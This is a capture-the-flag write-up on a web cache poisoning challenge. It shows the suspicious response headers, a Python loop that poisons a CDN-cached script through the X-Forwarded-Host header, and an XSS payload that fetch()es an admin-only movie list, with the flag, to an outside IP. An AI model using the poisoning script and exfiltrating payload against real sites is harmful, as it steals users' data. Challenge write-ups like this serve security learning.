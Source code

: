 After access this site, find a strange header: 

```
HTTP/1.1 200 OK
Server: gunicorn/19.9.0
Date: Mon, 17 Sep 2018 12:39:10 GMT
Content-Length: 523
Content-Type: application/octet-stream
Last-Modified: Fri, 14 Sep 2018 03:54:50 GMT
Cache-Control: public, max-age=43200
Expires: Tue, 18 Sep 2018 00:39:10 GMT
ETag: "1536897290.0-523-1486424030"
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: HEAD, OPTIONS, GET
Access-Control-Max-Age: 21600
Access-Control-Allow-Headers: X-Forwarded-Host
X-Varnish: 147513532
Age: 0
Via: 1.1 varnish-v4
Accept-Ranges: bytes
Connection: keep-alive
Proxy-Connection: keep-alive
```

Guess it may be a Web Cache Poison attack, and we can also find the following content in response:

```json
{
    "admin": false,
    "movies": [
        ...
        {
            "admin_only": true,
            "length": "22 Hours, 17 Minutes",
            "name": "[REDACTED]",
            "year": 2018
        }
    ]
}
```

So it's clear that we can get flag by poison the cache and then report it to admin. 

To get the movie list, we can add ``<img src=x onerror="fetch('http://123.206.65.192/'+'{{#movies}}{{ name }}{{/movies}}')">`` to the main.mst and put it on our server, then poison cache with the following script:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests

host = 'ourip' 

while True:
    r = requests.get("http://d05dfb9b052433fb53dbc435cc82838b069d9e2e.hm.vulnerable.services/cdn/app.js", headers={'X-Forwarded-Host': host})
    if host in r.content:
        print 'success'
        break
``` 

One thing we need be careful is that we should add cors headers to allow ``hm.vulnerable.services`` fetch our site.

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: HEAD, OPTIONS, GET
Access-Control-Max-Age: 21600
Access-Control-Allow-Headers: X-Forwarded-Host
```

After success, just report it, and we will receive the flag on our server.

```
GET /WarGamesKung%20FurySneakersSwordfishThe%20Karate%20KidGhost%20in%20the%20ShellSerial%20Experiments%20LainThe%20MatrixBlade%20RunnerBlade%20Runner%202049HackersTRONTron:%20LegacyMinority%20ReporteXistenZflag%7BI_h0pe_you_w4tch3d_a11_th3_m0v1es%7D
```
